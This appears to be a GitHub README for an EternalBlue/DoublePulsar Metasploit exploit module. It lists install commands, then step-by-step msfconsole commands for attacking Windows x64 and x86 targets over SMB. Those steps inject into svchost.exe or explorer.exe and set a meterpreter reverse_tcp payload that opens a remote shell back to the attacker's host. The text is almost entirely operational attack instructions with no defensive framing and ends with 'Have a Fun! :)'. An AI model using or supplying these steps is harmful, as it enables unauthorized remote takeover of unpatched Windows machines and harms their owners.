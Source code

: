 # Eternalblue-Doublepulsar-Metasploit

# How to Install

- dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
* git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
* cd Eternalblue-Doublepulsar-Metasploit
* cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
* Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
* mkdir -p /root/.wine/drive_c/

# How to use

service postgresql start
service postgresql enable
msfconsole
reload_all 
use exploit/windows/smb/eternalblue_doublepulsar
show options

 - For Windows x64
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 set TARGETARCHITECTURE x64
 set payload windows/x64/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 - For Windows x86
 
 set RHOST (Target IP)
 set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 set TARGETARCHITECTURE x86
 set payload windows/meterpreter/reverse_tcp
 set LHOST (Local IP, check it with 'ip a')
 show targets
 set target 8
 run or exploit
 
 # Have a Fun! :)
